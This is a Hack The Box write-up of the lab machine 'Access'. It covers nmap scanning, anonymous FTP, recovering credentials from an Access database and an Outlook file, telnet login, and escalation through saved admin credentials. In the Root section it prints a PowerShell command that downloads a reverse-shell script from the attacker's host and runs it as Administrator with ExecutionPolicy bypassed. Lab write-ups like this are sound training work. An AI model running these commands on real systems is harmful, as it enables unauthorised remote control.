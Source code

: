 # Hack The Box: Access machine write-up

Yet again another Windows machine rooted! This machine was quite tricky for me in the sense that I came across different problems that weren't supposed to be found (like downloading files through FTP without binary mode ON) but in the end I managed to follow the expected path to get the hash. The way to root is first through an anonymous ftp connection from which we obtain some creds to log in through telnet. From there, a simple manual enumeration shows that there are stored credentials and therefore we can run commands as administrator. Let's dig in!

The machine is running on port 10.10.10.98.

### Enumeration

Firstly, I enumerate open ports to discover the services running in the machine (I added access to my ``/etc/hosts`` as access):

```sh
nmap -sV -sC -oA nmap/initial access
```

```console
# Nmap 7.01 scan initiated Sun Nov  4 14:36:32 2018 as: nmap -sV -sC -oA nmap/initial access
Nmap scan report for access (10.10.10.98)
Host is up (0.030s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
|_ftp-anon: ERROR: Script execution failed (use -d to debug)
|_ftp-bounce: no banner
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov  4 14:39:24 2018 -- 1 IP address (1 host up) scanned in 171.78 seconds
```

### Enumeration of the services

#### Web service

We can see three services running so let's check the web service first on port 80.

*Contents of webpage*

![Img](images/website.png "Img")

I ran Dirb and DirBuster however nothing was found and I moved on to the other two services.

#### FTP

So let's check port 21. As it was asking for username I tried to log in anonymously and it worked (``anonymous`` as username and no password). Once in, we can see two directories: ``Backups`` and ``Engineer``. In the first one I find a file called ``backup.mdb`` and in the other ``Access Control.zip``. In order to have a look at them I download them with ```mget filename```.

**However, it is really important to set binary mode, otherwise the .mdb file won't be transferred properly and you won't be able to read it. You can do so by typing** ``binary``.

Having downloaded both files I can see that the zip is password protected, so I'll have to go to the .mdb file. The extension translates to <i>Microsoft Access Database</i>. Then, I  downloaded a tool which will let me see the contents of the database: ``gmdb2``.

To install: ``apt-get install mdbtools-gmdb``.

Then to query the db we just need to run: ``gmdb2 backup.mdb``.

The tool uses a visual interface, so by inspecting the names of the tables we can finally come across an interesting one: ``auth_user``.

*Visual interface of the tool*

![Img](images/visual_interface.png "Img")

*Contents of auth_user table*

![Img](images/auth_user.png "Img")

Now, with those creds I tried to log in to telnet, but no luck. Then I remembered that I still had the zip file, so I tried to open it with the credentials. Yay!

The zip opened with password ``access4u@security``.

Inside there was a file called ``Access Control.pst``. PST files are Microsoft Outlook files, so in order to be able to see the email I tried to [convert](https://www.coolutils.com/online/PST-to-MBOX) it to another format (.eml) and successfully viewed it on my OSX machine:

*Contents of email (.pst file)*

![Img](images/mail.png "Img")

### Telnet

With the new credentials we can log in through telnet: ``security:4Cc3ssC0ntr0ller``. Navigating the system we eventually get the user flag.

*Getting user flag*

![Img](images/user.png "Img")

## Root

Getting to Administrator wasn't too difficult, we just needed to check if we could execute ``runas`` with admin credentials. For that, I ran the command ``cmdkey /list``:

*Discovering that we can runas Administrator*

![Img](images/cmd.png "Img")

With that said, the only thing needed was download a reverse ps script from my local machine and then execute the ``runas`` command with the credentials saved and current environment. The command I used needed to bypass ExecutionPolicy in order to be able to connect back to my reverse shell.

```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.175:8001/minRev.ps1','C:\Users\security\rev.ps1')"
```

```console
runas /env /savecred /user:administrator "powershell -ExecutionPolicy ByPass -File rev.ps1"
```

*Reverse shell as Administrator*

![Img](images/root.png "Img")

---
<center><i>Diego Bernal Adelantado</i></center>

